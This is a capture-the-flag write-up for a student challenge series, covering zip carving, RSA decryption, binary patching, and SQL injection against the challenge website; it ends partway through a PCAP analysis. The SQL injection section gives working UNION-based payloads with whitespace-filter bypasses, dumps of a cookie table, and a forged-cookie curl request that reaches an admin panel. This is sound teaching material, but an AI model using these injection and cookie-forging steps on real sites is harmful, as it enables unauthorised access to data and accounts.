

# noxtis CTF - 2019

## Background

> noxtis is a collection of challenges dedicated for second year students at Magshimim. Its goal is to further expose the students to the world of cyber security through a variety of security challenges in different areas of the realm.

## Storyline 
> Last Saturday Nahman, the creator of noxale, was hit with a pulse of nostalgy and decided to binge all of Star Wars movies in just one day.
While he was enjoying the movie with a large bowl of popcorn and a monster-sized cola cup, one character really spoke to Nahman's heart - Darth Vader.
Nahman was inspired by him so much that it made him turn to the dark side and unite with Darth Vader by becoming a "black hat" with the sole goal of 
conquering the universe; which wasn't that realistic, so he decided to hack into the IDF's computers and steal some important intel along with buying 
all the Star Wars merchendise he could with Jack's credit card (Star Wars plushies are very comfortable). Overwhelmed by the amount data he managed to
lay his hands on, Nahman has decided to sell all the data to Iran's government, for a humble price of 2,147,483,647 bitcoin. Iran's government was
really really realllyyyy busy because Ruhani had a meni-pedi appointment he just couldn't resist, so they decided to make
the data exchange is ETA 8 hours from now.
YOU MUST STOP HIM TUN TUN TUUUUUUN

## Challenges

The CTF starts with the following link:

https://drive.google.com/file/d/1wwZ4c9ri-JaVTdl8S2Ng8Fx8PqfbBoWr/view

The link leads to a Google Drive file called `I_challenge_you.zip`.

Let's try to unzip it:
```console
root@kali:/media/sf_CTFs/noxtis# unzip I_challenge_you.zip
Archive:  I_challenge_you.zip
  End-of-central-directory signature not found.  Either this file is not
  a zipfile, or it constitutes one disk of a multi-part archive.  In the
  latter case the central directory and zipfile comment will be found on
  the last disk(s) of this archive.
note:  I_challenge_you.zip may be a plain executable, not an archive
unzip:  cannot find zipfile directory in one of I_challenge_you.zip or
        I_challenge_you.zip.zip, and cannot find I_challenge_you.zip.ZIP, period.
root@kali:/media/sf_CTFs/noxtis# file I_challenge_you.zip
I_challenge_you.zip: data
```

The file is not a legal zip file. Let's peek at the contents:
```console
root@kali:/media/sf_CTFs/noxtis# xxd I_challenge_you.zip | head
00000000: 0000 0000 0a00 0000 0000 67b5 3e4e 0000  ..........g.>N..
00000010: 0000 0000 0000 0000 0000 1000 0000 495f  ..............I_
00000020: 6368 616c 6c65 6e67 655f 796f 752f 504b  challenge_you/PK
00000030: 0304 1400 0000 0800 cab9 3e4e cc4f 0cbc  ..........>N.O..
00000040: 651d 0000 2846 0000 1d00 0000 495f 6368  e...(F......I_ch
00000050: 616c 6c65 6e67 655f 796f 752f 7265 7665  allenge_you/reve
00000060: 7273 696e 672e 6578 65ed 7b7b 7853 d795  rsing.exe.{{xS..
00000070: ef96 2c19 616c 8e68 6cea 101c 4e5a 9bd8  ..,.al.hl...NZ..
00000080: 051c 8957 6cc0 a984 6572 9cc8 60c0 06ca  ...Wl...er..`...
00000090: cb96 65c9 7691 2521 1d81 c903 4c64 939c  ..e.v.%!....Ld..
```

It does have the `PK` signature resembling zip files, but the signature is not at the correct location (the beginning of the file).
We can either try to fix the zip file, or just try our luck with `binwalk`:
```console
root@kali:/media/sf_CTFs/noxtis# binwalk -e I_challenge_you.zip

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
46            0x2E            Zip archive data, at least v2.0 to extract, compressed size: 7525, uncompressed size: 17960, name: I_challenge_you/reversing.exe
7630          0x1DCE          Zip archive data, at least v2.0 to extract, compressed size: 480, uncompressed size: 935, name: I_challenge_you/rsa.txt
```

We got a Windows executable and a text file.
Let's start from the text file:

```console
root@kali:/media/sf_CTFs/noxtis# cat _I_challenge_you.zip.extracted/I_challenge_you/rsa.txt
c=62094327354293714871337806608043143339672711375275261525243238242322194473023610842261452370807533140129255594935713596899492336925573500404508972313463258470764117200138784924348362580128423518572743446058119722861164424364186271770831857887818550880280385895469933434901508250872871673722739401583613920865
N=102518413348128616948064302091615267327586561544914497024946023154172320251650248158262401038211060025769143033483116931749752882566368072181993447378932810603880706573407783516535716219705301632360773290434984792276962906314924125193872533986871367036809927042370179209563059349511562287725586162360516841779
d=90575112832191634931822012293951618304193311969935139031973154594700485026947413962490036848108653090804963912366135718482295366073482828257042351498160831683665400283336482471506944874247073018050011183570224881323949477869741822928092177900190031155493051065073868895195339892585741809998466654281718606993
```

We have `c`, `N` and `d` - this looks like RSA.
In order to decrypt an RSA message, we use the following formula: 
```
M ≡ C^d (mod n)
```

In Python, that translates to:
```python
>>> c=62094327354293714871337806608043143339672711375275261525243238242322194473023610842261452370807533140129255594935713596899492336925573500404508972313463258470764117200138784924348362580128423518572743446058119722861164424364186271770831857887818550880280385895469933434901508250872871673722739401583613920865
>>> N=102518413348128616948064302091615267327586561544914497024946023154172320251650248158262401038211060025769143033483116931749752882566368072181993447378932810603880706573407783516535716219705301632360773290434984792276962906314924125193872533986871367036809927042370179209563059349511562287725586162360516841779
>>> d=90575112832191634931822012293951618304193311969935139031973154594700485026947413962490036848108653090804963912366135718482295366073482828257042351498160831683665400283336482471506944874247073018050011183570224881323949477869741822928092177900190031155493051065073868895195339892585741809998466654281718606993
>>> plaintext = pow(c, d, N)
>>> plaintext
12095051301478169748702315942951183566712581822646196016924926165965065297342257L
>>> format(plaintext, 'x')
'68747470733a2f2f64726976652e676f6f676c652e636f6d2f66696c652f642f31'
>>> format(plaintext, 'x').decode("hex")
'https://drive.google.com/file/d/1'
>>>
```

That looks like half of a Google Drive address, let's try to find the other half in the executable.

```
root@kali:/media/sf_CTFs/noxtis/_I_challenge_you.zip.extracted/I_challenge_you# r2 reversing.exe
 -- (gdb) ^D
[0x004014e0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
[x] Type matching analysis for all functions (afta)
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x004014e0]> afl
0x00401180   44 850  -> 809  sub.KERNEL32.dll_Sleep_180
0x004014e0    1 34           entry0
0x00401550    9 337          sym.main
0x004016a1   15 458          fcn.004016a1
0x0040186b   15 411          fcn.0040186b
0x00401a06    8 108          fcn.00401a06
0x00401b30   13 31   -> 150  fcn.00401b30
0x00401b60    1 3            fcn.00401b60
0x00401b70    6 214  -> 206  sub.KERNEL32.dll_GetSystemTimeAsFileTime_b70
0x00401e60    1 12   -> 18   fcn.00401e60
0x00401f70    1 3            fcn.00401f70
0x00401fa0   91 1584 -> 1540 sub.KERNEL32.dll_VirtualQuery_fa0
0x00402170   66 1120 -> 1076 sub.KERNEL32.dll_VirtualProtect_170
0x004025d0   12 236  -> 232  sub..pdata_5d0
0x004028b0    7 106          sub.KERNEL32.dll_EnterCriticalSection_8b0
0x00402a40   17 218  -> 205  sub.KERNEL32.dll_DeleteCriticalSection_a40
0x00402b20    3 30           fcn.00402b20
0x00402bb0    9 141  -> 139  fcn.00402bb0
0x00402c40    9 116          fcn.00402c40
0x00402cc0    4 62   -> 59   fcn.00402cc0
0x00402d00   10 111          fcn.00402d00
0x00402d70    3 55   -> 49   fcn.00402d70
0x00402f00    3 50           fcn.00402f00
0x00402f40    1 6            sub.msvcrt.dll_vfprintf_f40
0x00402f48    1 6            sub.msvcrt.dll_system_f48
0x00402f50    1 6            sub.msvcrt.dll_strncpy_f50
0x00402f58    1 6            sub.msvcrt.dll_strncmp_f58
0x00402f60    1 6            sub.msvcrt.dll_strlen_f60
0x00402f68    1 6            sub.msvcrt.dll_strcmp_f68
0x00402f70    1 6            sub.msvcrt.dll_signal_f70
0x00402f78    1 6            sub.msvcrt.dll_puts_f78
0x00402f80    1 6            sub.msvcrt.dll_printf_f80
0x00402f88    1 6            sub.msvcrt.dll_memcpy_f88
0x00402f90    1 6            sub.msvcrt.dll_malloc_f90
0x00402f98    1 6            sub.msvcrt.dll_fwrite_f98
0x00402fa0    1 6            sub.msvcrt.dll_free_fa0
0x00402fa8    1 6            sub.msvcrt.dll_fread_fa8
0x00402fb0    1 6            sub.msvcrt.dll_fprintf_fb0
0x00402fb8    1 6            sub.msvcrt.dll_fopen_fb8
0x00402fc0    1 6            sub.msvcrt.dll_fclose_fc0
0x00402fc8    1 6            sub.msvcrt.dll_exit_fc8
0x00402fd0    1 6            sub.msvcrt.dll_calloc_fd0
0x00402fd8    1 6            sub.msvcrt.dll_abort_fd8
0x00402fe0    1 6            sub.msvcrt.dll__onexit_fe0
0x00402fe8    1 6            sub.msvcrt.dll__initterm_fe8
0x00402ff0    1 6            sub.msvcrt.dll__cexit_ff0
0x00402ff8    1 6            sub.msvcrt.dll__amsg_exit_ff8
0x00403000    1 6            loc.00403000
0x00403008    1 6            sub.msvcrt.dll___set_app_type_8
0x00403018    1 6            sub.msvcrt.dll___getmainargs_18
0x00403030    1 31           fcn.00403030
0x00403060    1 11           fcn.00403060
0x00403070    1 11           fcn.00403070
0x00403080    1 11           fcn.00403080
0x00403090    1 6            sub.msvcrt.dll___iob_func_90
0x00403160    3 117  -> 154  sub.Mingw_w64_runtime_failure:_160
[0x004014e0]>
[0x004014e0]> s sym.main
[0x00401550]> VV


                                                               .---------------------------------------------------------.
                                                               | [0x401550]                                              |
                                                               | (fcn) sym.main 337                                      |
                                                               |   sym.main (int argc, char **argv, char **envp);        |
                                                               | ; var file*nmemb @ rbp-0x20                             |
                                                               | ; var file*stream @ rbp-0x18                            |
                                                               | ; var int local_10h @ rbp-0x10                          |
                                                               | ; var size_t local_4h @ rbp-0x4                         |
                                                               | ; CALL XREF from sub.KERNEL32.dll_Sleep_180 (0x4013c2)  |
                                                               | push rbp                                                |
                                                               | mov rbp, rsp                                            |
                                                               | ; '@'                                                   |
                                                               | sub rsp, 0x40                                           |
                                                               | call fcn.00401b30;[ga]                                  |
                                                               | mov dword [local_4h], 0                                 |
                                                               | mov qword [local_10h], 0                                |
                                                               | mov qword [stream], 0                                   |
                                                               | ; "r"                                                   |
                                                               | lea rdx, [0x00405035]                                   |
                                                               | ; 0x405037                                              |
                                                               | ; "obi/wanAnshobi.txt"                                  |
                                                               | lea rcx, str.obi_wanAnshobi.txt                         |
                                                               | ; file*fopen(const char *filename, const char *mode)    |
                                                               | call sub.msvcrt.dll_fopen_fb8;[gb]                      |
                                                               | mov qword [nmemb], rax                                  |
                                                               | cmp qword [nmemb], 0                                    |
                                                               | jne 0x40159c;[gc]                                       |
                                                               `---------------------------------------------------------'
                                                                       f t
                                                                       | |
                                                                       | '------------------------------.
                                                                .------'                                |
                                                                |                                       |
                                                            .--------------------------------------.    |
                                                            |  0x401592 [gf]                       |    |
                                                            | mov ecx, 0                           |    |
                                                            | call sub.msvcrt.dll_exit_fc8;[ge]    |    |
                                                            `--------------------------------------'    |
                                                                v                                       |
                                                                |                                       |
                                                               .'                                       |
                                                               | .--------------------------------------'
                                                               | |
                                                         .---------------------------------------------------------------------.
                                                         |  0x40159c [gc]                                                      |
                                                         | ; CODE XREF from sym.main (0x401590)                                |
                                                         | ; 32                                                                |
                                                         | mov ecx, 0x20                                                       |
                                                         | ; void *malloc(size_t size)                                         |
                                                         | call sub.msvcrt.dll_malloc_f90;[gg]                                 |
                                                         | mov qword [stream], rax                                             |
                                                         | mov rdx, qword [nmemb]                                              |
                                                         | mov rax, qword [stream]                                             |
                                                         | mov r9, rdx                                                         |
                                                         | ; 31                                                                |
                                                         | mov r8d, 0x1f                                                       |
                                                         | ; size_t nmemb                                                      |
                                                         | mov edx, 1                                                          |
                                                         | ; FILE *stream                                                      |
                                                         | mov rcx, rax                                                        |
                                                         | ; size_t fread(void *ptr, size_t size, size_t nmemb, FILE *stream)  |
                                                         | call sub.msvcrt.dll_fread_fa8;[gh]                                  |
                                                         | mov dword [local_4h], eax                                           |
                                                         | mov rax, qword [nmemb]                                              |
                                                         | mov rcx, rax                                                        |
                                                         | ; int fclose(FILE *stream)                                          |
                                                         | call sub.msvcrt.dll_fclose_fc0;[gi]                                 |
                                                         | mov eax, dword [local_4h]                                           |
                                                         | cdqe                                                                |
                                                         | mov rdx, qword [stream]                                             |
                                                         | ; '('                                                               |
                                                         | add rax, rdx                                                        |
                                                         | mov byte [rax], 0                                                   |
                                                         | mov rax, qword [stream]                                             |
                                                         | mov rcx, rax                                                        |
                                                         | ; size_t strlen(const char *s)                                      |
                                                         | call sub.msvcrt.dll_strlen_f60;[gj]                                 |
                                                         | ; 5                                                                 |
                                                         | cmp rax, 5                                                          |
                                                         | jne 0x401608;[gk]                                                   |
                                                         `---------------------------------------------------------------------'
                                                                 f t
                                                                 | |
                                                                 | '----------------------------------.
                                                                 '----.                               |
                                                                      |                               |
                                                                  .-------------------------------.   |
                                                                  |  0x4015f8 [gn]                |   |
                                                                  | mov rax, qword [stream]       |   |
                                                                  | mov rcx, rax                  |   |
                                                                  | call fcn.00401a06;[gl]        |   |
                                                                  | test eax, eax                 |   |
                                                                  | jne 0x40161e;[gm]             |   |
                                                                  `-------------------------------'   |
                                                                          f t                         |
                                                                          | |                         |
                                                                          | '---.                     |
                                                                          '---------------.           |
                                                                                |         | .---------'
                                                                                |         | |
                                                                                |   .--------------------------------------.
                                                                                |   |  0x401608 [gk]                       |
                                                                                |   | ; CODE XREF from sym.main (0x4015f6) |
                                                                                |   | mov rax, qword [stream]              |
                                                                                |   | mov rcx, rax                         |
                                                                                |   | ; void free(void *ptr)               |
                                                                                |   | call sub.msvcrt.dll_free_fa0;[go]    |
                                                                                |   | mov ecx, 0                           |
                                                                                |   | call sub.msvcrt.dll_exit_fc8;[ge]    |
                                                                                |   `--------------------------------------'
                                                                                |       v
                                                                                |       |
                                                                          .-----|-------'
                                                                          | .---'
                                                                          | |
                                                                    .-----------------------------------------------.
                                                                    |  0x40161e [gm]                                |
                                                                    | mov rax, qword [stream]                       |
                                                                    | mov rcx, rax                                  |
                                                                    | call fcn.004016a1;[gp]                        |
                                                                    | mov rax, qword [stream]                       |
                                                                    | ; 0x40504a                                    |
                                                                    | ; "zif}e"                                     |
                                                                    | lea rdx, str.zif_e                            |
                                                                    | mov rcx, rax                                  |
                                                                    | ; int strcmp(const char *s1, const char *s2)  |
                                                                    | call sub.msvcrt.dll_strcmp_f68;[gq]           |
                                                                    | test eax, eax                                 |
                                                                    | jne 0x401672;[gr]                             |
                                                                    `-----------------------------------------------'
                                                                            f t
                                                                            | |
                                                                            | '----------------------.
                                             .------------------------------'                        |
                                             |                                                       |
                                         .--------------------------------------------------.    .--------------------------------------.
                                         |  0x401641 [gv]                                   |    |  0x401672 [gr]                       |
                                         | ; 0x405050                                       |    | ; CODE XREF from sym.main (0x40163f) |
                                         | ; "JV7\_E=Yg\x7fZ9XhL<e`U_:a[NL7`f\x7fhg;/naem"  |    | ; 0x405091                           |
                                         | lea rcx, str.JV7___E_Yg                          |    | ; "Wrong answer!"                    |
                                         | call fcn.0040186b;[gs]                           |    | lea rcx, str.Wrong_answer            |
                                         | mov qword [local_10h], rax                       |    | ; int puts(const char *s)            |
                                         | mov rax, qword [local_10h]                       |    | call sub.msvcrt.dll_puts_f78;[gw]    |
                                         | mov rdx, rax                                     |    `--------------------------------------'
                                         | ; 0x405076                                       |        v
                                         | ; "Correct! There you go: %s\n"                  |        |
                                         | lea rcx, str.Correct__There_you_go:__s           |        |
                                         | ; int printf(const char *format)                 |        |
                                         | call sub.msvcrt.dll_printf_f80;[gt]              |        |
                                         | mov rax, qword [local_10h]                       |        |
                                         | mov rcx, rax                                     |        |
                                         | ; void free(void *ptr)                           |        |
                                         | call sub.msvcrt.dll_free_fa0;[go]                |        |
                                         | jmp 0x40167e;[gu]                                |        |
                                         `--------------------------------------------------'        |
                                             v                                                       |
                                             |                                                       |
                                             '-------------------------------.                       |
                                                                             | .---------------------'
                                                                             | |
                                                                       .----------------------------------------.
                                                                       |  0x40167e [gu]                         |
                                                                       | ; CODE XREF from sym.main (0x401670)   |
                                                                       | mov rax, qword [stream]                |
                                                                       | mov rcx, rax                           |
                                                                       | ; void free(void *ptr)                 |
                                                                       | call sub.msvcrt.dll_free_fa0;[go]      |
                                                                       | ; 0x40509f                             |
                                                                       | ; "pause"                              |
                                                                       | lea rcx, str.pause                     |
                                                                       | ; int system(const char *string)       |
                                                                       | call sub.msvcrt.dll_system_f48;[gx]    |
                                                                       | mov eax, 0                             |
                                                                       | ; '@'                                  |  
                                                                       | add rsp, 0x40                          |
                                                                       | pop rbp                                |
                                                                       | ret                                    |
                                                                       `----------------------------------------'

```

Even without diving too deep into the assembly, we can see that we should create a `obi/wanAnshobi.txt` file in order to get past the test in the first block, and fill with with a string of length 5 in order to get past the test in the `[gc]` block. 
`[gn]` contains an extra test implemented in `fcn.00401a06`, let's ignore that for now. It then calls `fcn.004016a1` and apparently checks the result against `zif}e` in order to pass the test in `[gm]`. If it passes, we get to the "correct" block ("`[gv]`") and prints something to the user.

`fcn.00401a06` is pretty simple and just checks that the input string consists of lowercase letters. `fcn.004016a1` is much more complex, making it worth while to just pop-up a debugger, modify the jump flag ("tricking" the `test eax, eax` to think that `strcmp` returned a result of "equal") and hope for the best.

Fortunately, this produces the following output:
```
Correct! There you go: ZT3N_E7QckP1RbX8ejU_0iOVX3jdkbc9/view
```

So, the next link is:

https://drive.google.com/file/d/1ZT3N_E7QckP1RbX8ejU_0iOVX3jdkbc9/view


This time we get an image:


We head to the site and get a simple fan page:
```html
<html>
<head>
	<title>Darth Vader Fans!</title>
	<link rel="stylesheet" href="css/main.css" />
	<meta charset="UTF-8" />
	<meta name="description" value="Website dedicated to Darth Vaders fans all over the world" />
	<meta name="author" value="Nahman" />
</head>
<body>
	<header>
		
		<div id="navigation-bar">
			<ul>
				<li><a href="index.php">Home</a></li>
				<li><a href="merch.php">Merchandise</a></li>
				<li><a href="memes.php">Memes</a></li>
				<li><a href="about.php">About us</a></li>
				<li><a href="contact.php">Contact us</a></li>
							</ul>
		</div>
	</header>
	<article class="main-content">
		<h1>
			Welcome to Darth Vader fanbase official website!
		</h1>
		<p>Here you can find everything related to Darth Vader from Star Wars™ franchise <br>
		from comfortable plushies to RGB lightsabers in fixed price!<br>
		Knock yourselves out with custom made Darth Vader shirts for all kinds of sizes and cute christmas<br>
		socks with Darth Vader figures on them.</p>
	</article>
</body>
</html>
```

There's not too much to see, the most promising section is the merchandise area:
```html
<article class="main-content">
    <h1>
        Merchandise!
    </h1>
    <div class="products">
    <div class='item'><p>Lightsaber</p><a href="product.php?id=1"></a></div><div class='item'><p>Darth Pillow</p><a href="product.php?id=2"></a></div><div class='item'><p>Darth Vader Mug</p><a href="product.php?id=3"></a></div><div class='item'><p>Darth Vader Phone Case</p><a href="product.php?id=4"></a></div><div class='item'><p>Darthplushie - signed by Nahman</p><a href="product.php?id=5"></a></div><div class='item'><p>Dark Side Bag</p><a href="product.php?id=6"></a></div><div class='item'><p>Darth Vader Shirt</p><a href="product.php?id=7"></a></div><div class='item'><p>Darth Vader Mask</p><a href="product.php?id=8"></a></div><div class='item'><p>Darth Vader Vinyl Sticker</p><a href="product.php?id=9"></a></div><div class='item'><p>Darth Vader mug</p><a href="product.php?id=11"></a></div>		</div>
</article>
```

It looks like the products come from a database, based on the dynamic `id` parameter.

Here's a product page, for example:
```html
<article class="main-content">
    <h1>
        Lightsaber		</h1>
    <div class="product-choose">
        <br>
        <p>Price: $40</p>
    </div>
</article>
```

Notice how item #10 is missing. If we visit it independtly, we get:
```html
<article class="main-content">
        <h1>
        Darth Vader Minecraft Skin with interesting filename		
        </h1>
        <div class="product-choose">
                <br>
                <p>Price: $1500</p>
        </div>
</article>
```

However, I didn't find anything to do with this information throughout the CTF. Maybe it's an easter egg?

Obviously, the next step is to try and fiddle with the parameter, and see what happens. The page handles out-of-range values gracefuly by displaying an "Item not found" page, but when entering an invalid character such as `'`, it displays an error message: "Whitespace detected!".

What happens if we try to access `product.php?id=1'or'1'='1`? We actually get a valid product page, which means that the service is vulnerable to SQL injection!

Let's try some illegal syntax in order to see an error message:
```
/product.php?id=100'union--
```

The result is: ` SQLSTATE[HY000]: General error: 1 near "--'": syntax error `.

Searching for the error message, we get several indications that this is an SQLite DB. Let's try to read the table names using SQLite syntax:

```
/product.php?id=100'union/**/SELECT/**/1,tbl_name,3,4,5/**/from(sqlite_master)/**/limit/**/1/**/offset/**/0--
--> Produces "products"

/product.php?id=100'union/**/SELECT/**/1,tbl_name,3,4,5/**/from(sqlite_master)/**/limit/**/1/**/offset/**/1--
--> Produces "sqlite_sequence"

/product.php?id=100'union/**/SELECT/**/1,tbl_name,3,4,5/**/from(sqlite_master)/**/limit/**/1/**/offset/**/1--
--> "Item not found" --> No additional tables
```

Now we can try to read the "products" table structure:
```
/product.php?id=100%27union/**/SELECT/**/1,sql,3,4,5/**/from(sqlite_master)/**/limit/**/1/**/offset/**/1--
--> CREATE TABLE products (id INTEGER PRIMARY KEY AUTOINCREMENT, name varchar(255) UNIQUE, price INTEGER, img varchar(255), seller_cookie varchar(255)) 
```

Knowing the column names, we can start dumping data:
```
/product.php?id=100'union/**/SELECT/**/1,seller_cookie,name,4,5/**/from(products)/**/limit/**/1/**/offset/**/0--
-->  4e8a22q94as9fzx21z3fg== , Darth Vader Phone Case

/product.php?id=100'union/**/SELECT/**/1,seller_cookie,name,img,5/**/from(products)/**/limit/**/1/**/offset/**/1--
-->  QmVuU3dvbG8= , Dark Side Bag

...
```

After dumping all the rows, we get the following data:
```
seller_cookie               Base64 Decoded String
-----------------------     --------------------------
4e8a22q94as9fzx21z3fg==     <invalid base64 string>
QmVuU3dvbG8=                BenSwolo
QmVuU3dvbG8=                BenSwolo
RGFydGh4TmFobWFu            DarthxNahman
T2J2aW91c2x5Tm90TmFobWFu    ObviouslyNotNahman
T2J2aW91c2x5Tm90TmFobWFu    ObviouslyNotNahman
T2JpV2FubmFiZQ==            ObiWannabe
T2JpV2FubmFiZQ==            ObiWannabe
THVrZUlzQUJhc3RhcmQ=        LukeIsABastard
THVrZUlzQUJhc3RhcmQ=        LukeIsABastard
V2VIYXZlQ29va2llcw==        WeHaveCookies
```

We are hunting for Nahman, so we create a cookie with his value and revisit the site:

```console
root@kali:/media/sf_CTFs/noxtis/site# curl -v --cookie "seller_cookie=RGFydGh4TmFobWFu" http://darthvaderfans.noxale.com/
*   Trying 18.220.135.102...
* TCP_NODELAY set
* Connected to darthvaderfans.noxale.com (18.220.135.102) port 80 (#0)
> GET / HTTP/1.1
> Host: darthvaderfans.noxale.com
> User-Agent: curl/7.61.0
> Accept: */*
> Cookie: seller_cookie=RGFydGh4TmFobWFu
>
< HTTP/1.1 200 OK
< Host: darthvaderfans.noxale.com
< Connection: close
< X-Powered-By: PHP/7.0.32-0ubuntu0.16.04.1
< Set-Cookie: PHPSESSID=1d692c34d75fc6d5a28f003d837a43ee; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-type: text/html; charset=UTF-8
<

<html>
<head>
        <title>Darth Vader Fans!</title>
        <link rel="stylesheet" href="css/main.css" />
        <meta charset="UTF-8" />
        <meta name="description" value="Website dedicated to Darth Vaders fans all over the world" />
        <meta name="author" value="Nahman" />
</head>
<body>
        <header>
                
                <div id="navigation-bar">
                        <ul>
                                <li><a href="index.php">Home</a></li>
                                <li><a href="merch.php">Merchandise</a></li>
                                <li><a href="memes.php">Memes</a></li>
                                <li><a href="about.php">About us</a></li>
                                <li><a href="contact.php">Contact us</a></li>
                                <li><a href='admin.php'>Control Panel</a></li>                  </ul>
                </div>
        </header>
        <article class="main-content">
                <h1>
                        Welcome to Darth Vader fanbase official website!
                </h1>
                <p>Here you can find everything related to Darth Vader from Star Wars™ franchise <br>
                from comfortable plushies to RGB lightsabers in fixed price!<br>
                Knock yourselves out with custom made Darth Vader shirts for all kinds of sizes and cute christmas<br>
                socks with Darth Vader figures on them.</p>
        </article>
</body>
* Closing connection 0
</html>
```

Notice how we got a new link in the navigation bar: "Control Panel". Let's visit it:


```console
root@kali:/media/sf_CTFs/noxtis/site# curl -v --cookie "seller_cookie=RGFydGh4TmFobWFu" http://darthvaderfans.noxale.com/admin.php
*   Trying 18.220.135.102...
* TCP_NODELAY set
* Connected to darthvaderfans.noxale.com (18.220.135.102) port 80 (#0)
> GET /admin.php HTTP/1.1
> Host: darthvaderfans.noxale.com
> User-Agent: curl/7.61.0
> Accept: */*
> Cookie: seller_cookie=RGFydGh4TmFobWFu
>
< HTTP/1.1 200 OK
< Host: darthvaderfans.noxale.com
< Connection: close
< X-Powered-By: PHP/7.0.32-0ubuntu0.16.04.1
< Set-Cookie: PHPSESSID=55954f95c98f172f2de529c98388d83d; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-type: text/html; charset=UTF-8
<

<html>
<head>
        <title>Darth Vader Fans!</title>
        <link rel="stylesheet" href="css/main.css" />
        <meta charset="UTF-8" />
        <meta name="description" value="Website dedicated to Darth Vaders fans all over the world" />
        <meta name="author" value="Nahman" />
</head>
<body>
        <header>
                
                <div id="navigation-bar">
                        <ul>
                                <li><a href="index.php">Home</a></li>
                                <li><a href="merch.php">Merchandise</a></li>
                                <li><a href="memes.php">Memes</a></li>
                                <li><a href="about.php">About us</a></li>
                                <li><a href="contact.php">Contact us</a></li>
                                <li><a href='admin.php'>Control Panel</a></li>                  </ul>
                </div>
        </header>
        <article class="main-content">
                <h1>
                Admin panel
                </h1>
                <a href="https://drive.google.com/file/d/1OqrGfsoCkKjGzei-1Irvxvt2PYRU-Z5W/view"> BOOM PCAP FILE </a>
        </article>
</body>
</html>
* Closing connection 0
```

The next stop is:

https://drive.google.com/file/d/1OqrGfsoCkKjGzei-1Irvxvt2PYRU-Z5W/view

It offers a PCAP network capture:
```console
root@kali:/media/sf_CTFs/noxtis/pcap# tshark -r KnockKnockKnock.pcap
    1   0.000000    10.0.0.10 → 3.16.9.89    TCP 54 20 → 2510 [SYN] Seq=0 Win=8192 Len=0 20 2510
    2   0.502349    10.0.0.10 → 3.16.9.89    TCP 54 20 → 2031 [SYN] Seq=0 Win=8192 Len=0 20 2031
    3   1.017833    10.0.0.10 → 3.16.9.89    TCP 54 20 → 2000 [SYN] Seq=0 Win=8192 Len=0 20 2000
    4   1.515503    10.0.0.10 → 3.16.9.89    TCP 66 2562 → 8200 [SYN] Seq=0 Win=8192 Len=0 MSS=1460 WS=256 SACK_PERM=1 2562 8200
    5   1.691303    3.16.9.89 → 10.0.0.10    TCP 66 8200 → 2562 [RST] Seq=1 Win=26883 Len=0 MSS=1360 SACK_PERM=1 WS=128 8200 2562
    6   1.694659    10.0.0.10 → 3.16.9.89    TCP 54 20 → 1111 [SYN] Seq=0 Win=8192 Len=0 20 1111
    7   2.205073    10.0.0.10 → 3.16.9.89    TCP 54 20 → 2222 [SYN] Seq=0 Win=8192 Len=0 20 2222
    8   2.705261    10.0.0.10 → 3.16.9.89    TCP 54 20 → 3333 [SYN] Seq=0 Win=8192 Len=0 20 3333
    9   3.218129    10.0.0.10 → 3.16.9.89    TCP 66 2563 → 8200 [SYN] Seq=0 Win=8192 Len=0 MSS=1460 WS=256 SACK_PERM=1 2563 8200
   10   3.432105    3.16.9.89 → 10.0.0.10    TCP 66 8200 → 2563 [RST] Seq=1 Win=26883 Len=0 MSS=1360 SACK_PERM=1 WS=128 8200 2563
   11   3.435321    10.0.0.10 → 3.16.9.89    TCP 54 20 → 1122 [SYN] Seq=0 Win=8192 Len=0 20 1122
   12   3.940159    10.0.0.10 → 3.16.9.89    TCP 54 20 → 3344 [SYN] Seq=0 Win=8192 Len=0 20 3344
   13   4.455189    10.0.0.10 → 3.16.9.89    TCP 54 20 → 5566 [SYN] Seq=0 Win=8192 Len=0 20 5566
   14   4.968132    10.0.0.10 → 3.16.9.89    TCP 66 2564 → 8200 [SYN] Seq=0 Win=8192 Len=0 MSS=1460 WS=256 SACK_PERM=1 2564 8200
   15   5.172456    3.16.9.89 → 10.0.0.10    TCP 66 8200 → 2564 [RST] Seq=1 Win=26883 Len=0 MSS=1360 SACK_PERM=1 WS=128 8200 2564
   16   5.175748    10.0.0.10 → 3.16.9.89    TCP 54 20 → 1234 [SYN] Seq=0 Win=8192 Len=0 20 1234
   17   5.689558    10.0.0.10 → 3.16.9.89    TCP 54 20 → 1337 [SYN] Seq=0 Win=8192 Len=0 20 1337
   18   6.205231    10.0.0.10 → 3.16.9.89    TCP 54 20 → 7777 [SYN] Seq=0 Win=8192 Len=0 20 7777
